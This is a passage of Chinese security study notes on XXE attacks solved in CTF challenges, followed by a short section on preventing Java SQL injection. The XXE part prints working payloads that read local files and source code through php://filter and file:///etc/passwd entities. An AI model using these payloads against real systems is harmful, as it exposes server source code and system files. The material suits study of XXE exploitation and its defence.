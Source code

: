 ```
	<!ENTITY f SYSTEM "php://filter/read=convert.base64-encode/resource=xxe.php">
]>

<x>&f;</x>
```

小知识点：

一般的访问读取文件，我们需要输入其文件存放路径。

当我们用伪协议(如php://filter/read=convert.base64-encode/resource=xxx)时，不需要我们补全要查找文件的路径(就是当前路径)，它会自动查找当前目录下我们要查找的文件，可以在我们不清楚文件路径时使用。

##### CTF-Vulnhub-XXE安全真题复现-检测、利用、扩展、实战

```
扫描IP及端口->扫描探针xxe安全->利用xxe读取源码->flag指向文件->base32,64解码->php运行->flag

<?xml version="1.0"?>
<!DOCTYPE r [
	<!ELEXENT r ANY >
	<!ENTITY sp SYSTEM "php://filter/read=convert.base64-encode/resource=admin.php">
]>

<root><name>&sp;</name><password>jk</password></root>
```



##### CTF-Jarvis-OJ-Web-XXE安全真题复现-数据请求格式

```
更改请求数据格式：application/xml

<?xml version="1.0"?>
<!DOCTYPE ANY [
	<!ENTITY f SYSTEM "file:///etc/passwd">
]>

<x>&f;</x>
```

### JAVA安全-JWT安全及预编译CASE注入等

#### 防御sql注入

防御sql注入，其实就是session，参数绑定，存储过程这样的注入。

```
//利用session防御，session内容正常情况下是用户无法修改的 select * from users where user = "'" + session.getAttribute("UserID") + "'";
```
####  JDBC编程之预编译SQL与防注入

预编译参考博客--->[here](https://www.cnblogs.com/klyjb/p/11473857.html)
